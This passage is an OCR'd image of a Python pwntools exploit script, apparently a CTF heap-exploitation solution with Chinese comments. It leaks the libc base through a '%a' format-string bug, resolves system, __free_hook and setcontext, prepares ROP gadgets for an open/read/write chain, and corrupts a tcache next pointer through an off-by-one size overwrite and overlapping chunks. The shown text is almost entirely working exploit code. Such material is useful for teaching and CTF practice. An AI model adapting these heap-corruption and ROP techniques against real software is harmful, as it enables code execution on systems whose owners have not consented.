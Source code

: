    ```py
       p.sendlineafter(b'>>',b'1')
       p.sendlineafter(b'size',str(0).encode())
   
   # def fd_glibc32(tcache_base,target_addr):
   #     success("fake_addr==>"+hex(target_addr))
   #     payload = p64(tcache_base^(target_addr))
   #     return payload
   
   p.sendlineafter(b"end ?",str(89).encode())
   
   add(0xf8,b"aaa") #1
   free()      #2
   add(0x100,b"aaa")   #3
   free()
   add(0x200,b"a"*0x50 + p64(0x170) + p64(0x200-0x50))
   free()
   
   # 利用格式化字符串泄漏libc地址
   out()
   p.sendlineafter(b"end ?",str(78).encode())
   p.sendlineafter(b"reason",b"%a")
   
   p.recvuntil(b"0x0.")
   libc_base = int(p.recv(13).decode(),16) - 0x3EC7E3
   success("libc_base   ==> " + hex(libc_base))
   
   setcontext_addr    = libc_base + libc.sym["setcontext"] + 53
   system_addr        = libc_base + libc.sym["system"]
   free_hook_addr     = libc_base+libc.sym["__free_hook"]
   IO_switch_to_wget_mode_addr = libc_base+libc.sym["_IO_switch_to_wget_mode"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   
   # IO_wfile_jumps_addr = libc_base + 0x1E4F80
   
   success("setcontext_addr==>"    + hex(setcontext_addr))
   success("IO_switch_to_wget_mode_addr==>"    + hex(IO_switch_to_wget_mode_addr))
   
   open_addr = libc.sym['open']+libc_base
   read_addr = libc.sym['read']+libc_base
   write_addr = libc.sym['write']+libc_base
   print(hex(read_addr))
   # #pause()
   
   pop_rdi_ret=libc_base + 0x000000000002164f
   pop_rdx_ret=libc_base + 0x0000000000001b96
   pop_rax_ret=libc_base + 0x000000000001b500
   pop_rsi_ret=libc_base + 0x0000000000023a6a
   ret= libc_base + 0x0000000000023a6a + 1
   
   # pop_rdi_ret=libc_base + 0x00000000000215bf
   # pop_rdx_ret=libc_base + 0x0000000000001b96
   # pop_rax_ret=libc_base + 0x0000000000043ae8
   # pop_rsi_ret=libc_base + 0x0000000000023eea
   # ret= libc_base + 0x0000000000023eea + 1
   
   # 修改size字段
   add(0xf8,b"a"*0xf8 + b"\x71")
   free()
   
   
   # 利用overlapping 修改0x210chunk的next字段
   add(0x100,b"FFFFFFF")
   ```